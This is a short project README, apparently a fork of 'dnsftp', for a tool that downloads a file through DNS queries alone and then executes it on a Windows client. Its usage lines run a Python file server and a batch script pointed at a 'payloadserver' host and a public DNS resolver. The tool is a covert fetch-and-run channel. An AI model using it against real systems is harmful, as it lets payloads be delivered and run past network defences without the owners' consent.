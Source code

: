 ## Purpose

Use only DNS queries to download a file, and then execute it.

## Usage

On the server hosting the file (tested with python2):

**sudo python server.py -f /path/to/file**

On the Windows client with batch script:

**client\client_batch\runme.bat _payloadserverhostname_  _fileparts_  _publicdnsserver_**

**Example: client\client_batch\runme.bat payloadserver.yourdomain.com  42  8.8.8.8**

If just testing internally, you can use the following example:

**client\client_batch\runme.bat _payloadserverhostname_  _fileparts_  _payloadserverIPaddr_**

Original author:

http://breenmachine.blogspot.com/2014/09/transfer-file-over-dns-in-windows-with.html

https://github.com/breenmachine/dnsftp

Forked and modified by:
Daniel Vinakovsky
